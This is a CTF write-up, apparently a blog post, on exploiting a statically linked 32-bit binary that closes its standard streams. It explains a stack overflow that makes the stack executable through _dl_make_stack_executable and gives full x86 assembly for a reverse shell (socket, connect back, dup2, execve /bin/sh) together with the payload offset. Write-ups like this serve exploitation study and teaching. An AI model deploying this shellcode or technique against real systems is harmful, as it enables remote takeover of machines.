 # kidding

The challenge gives us a file without libc

Running it

![](https://hackmd.io/_uploads/BkkwUBRqn.png)

The program gets an input then ends

Debuging with gdb

`main`

```
Dump of assembler code for function main:
   0x0804887c <+0>:     push   ebp
   0x0804887d <+1>:     mov    ebp,esp
   0x0804887f <+3>:     sub    esp,0x8
   0x08048882 <+6>:     push   0x64
   0x08048884 <+8>:     lea    eax,[ebp-0x8]
   0x08048887 <+11>:    push   eax
   0x08048888 <+12>:    push   0x0
   0x0804888a <+14>:    call   0x806d180 <read>
   0x0804888f <+19>:    add    esp,0xc
   0x08048892 <+22>:    push   0x0
   0x08048894 <+24>:    call   0x806d330 <close>
   0x08048899 <+29>:    add    esp,0x4
   0x0804889c <+32>:    push   0x1
   0x0804889e <+34>:    call   0x806d330 <close>
   0x080488a3 <+39>:    add    esp,0x4
   0x080488a6 <+42>:    push   0x2
   0x080488a8 <+44>:    call   0x806d330 <close>
   0x080488ad <+49>:    add    esp,0x4
   0x080488b0 <+52>:    mov    eax,0x0
   0x080488b5 <+57>:    leave
   0x080488b6 <+58>:    ret
```

* So it `read` `0x64` bytes from `sdtin`, stores result in `ebp - 0x8` and call `close(stdin)`, `close(stdout)`, `close(stderr)`

Checksec

![](https://hackmd.io/_uploads/rJ9zvS0q2.png)

Check for process mapping then i see that it doesn't use libc

![](https://hackmd.io/_uploads/S1hSDrR5h.png)


* Then decompile the program with `ida` i see that many functions in libc is in the program. In other word, this program is a libc. But it doesn't have some functions tho
* Since it `close` all standard file stream, we can't interact with it even if we can get a shell. So the idea is using `reverse-shell`
* So i write `reverse-shell shellcode` to stack then executes it

## Make stack executable

Basically the first thing i have to do is making the stack executable

* First i tried to use `mprotect` syscall but it didn't work, then i figured out that the address passed to that has to be `AND` with `0xfffff000`. Even i can make the address align like that but it takes too many gadgets
* Then i found out there's a function that make stack executable for me. It's call `_dl_make_stack_executable`.

```cpp=
unsigned int __usercall dl_make_stack_executable@<eax>(_DWORD *a1@<eax>)
{
  unsigned int result; // eax

  if ( *a1 != _libc_stack_end )
    return 1;
  result = mprotect(*a1 & -dl_pagesize, dl_pagesize);
  if ( result )
    return *(_DWORD *)(__readgsdword(0) - 24);
  *a1 = 0;
  dl_stack_flags |= 1u;
  return result;
}
```

* To make it work, the argument must be `_libc_stack_end`, then it call `mprotect` with `prot` is stored in a global variable called `__stack_prot`. First `__stack_prot` contain `0x100000`

![](https://hackmd.io/_uploads/BJ7VoBC93.png)

* So i have to change it to `0x7` (PROT_READ | PROT_WRITE | PROT_EXEC)

```cpp=
#define	PROT_READ	 0x04	/* Pages can be read.  */
#define	PROT_WRITE	 0x02	/* Pages can be written.  */
#define	PROT_EXEC	 0x01	/* Pages can be executed.  */
```

So after making stack executable, i use `jmp esp` to jump to my `reverse-shell shellcode`

## Reverse-shell

You can see [this](https://smarinovic.github.io/posts/Reverse-shell/) for more infomations about `reverse-shell`

* Some syscall i use to create a `reverse-shell`. See [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) for syscall number
```
execve   0xb         //to execute('/bin/sh')
socket   0x167       //to create socket
connect  0x16a       //to connect to our machine
dup2     0x3f        //redirect file stream to socket  
```
* First i wonder if i can use `dup2` with a closed file stream. Reading document for `dup2`

>If the file descriptor newfd was previously open, it is closed
       before being reused; the close is performed silently (i.e., any
       errors during the close are not reported by dup2()).

* `dup2` will `close` the file stream anyway so it's okay

* So my `revese-shell` will be like this after trying to minimize the size

```

//socket(AF_INET, SOCK_STREAM, 0)
push 2
pop ebx                ;ebx = AF_INET for ipv4
push 1
pop ecx                ;ecx = SOCK_STREAM for tcp protocol
push eax
pop edx                ;edx = 0 for ip protocol
mov ax, 0x167 
int 0x80

//eax is now socket file descriptor

//connect(socket, struct sockaddr_in, len)                 
mov edi, eax          ;store the socket in edi to reuse
//create struct on stack
push ebp              ;ip address 
push  {}0002          ;port and AF_INET
mov ecx, esp          ;sockaddr struct
mov ebx, edi          ;ebx = socket
mov dl, 0x10          ;size of (struct sockaddr_in)
mov ax, 0x16a
int 0x80


//dup2(socket, stdin)
mov al, 0x3f
xor ecx, ecx           ;ecx = 0(stdin), ebx is already socket
int 0x80

//dup2(socket, stdout)
mov eax, 0x3f
mov ebx, edi           ;ebx = socket
mov ecx, 1             ;ecx = stdout
int 0x80

//i don't dup2(socket, stderr) here because we don't need it, but it you like you can do it



//execve('/bin/sh')
mov eax, 0xb
push 0x68732f
push 0x6e69622f
mov ebx, esp           ;ebx -> /bin/sh
mov ecx, 0    
mov edx, 0
int 0x80
```


* The problem rises when the payload's length is over `100`. So far to `socket(socket, stdout)` it's okay, i decided to make a `read` syscall after `dup2(socket, stdin)` and continue my shellcode by that `read`
* So in server side it has to send the remained shellcode
* Calculate the distance between `esp` and `eip` to write shellcode at right place

![](https://hackmd.io/_uploads/BkOS-I092.png)

* So my payload will be like

```python=
b'A'*0x3c + shell
```

Running it

![](https://hackmd.io/_uploads/SkJsZIR9n.png)

Success get a shell in the program

Checking in server side

![](https://hackmd.io/_uploads/B12nbIAch.png)

It works but i don't have any server to check if my solution is true. 
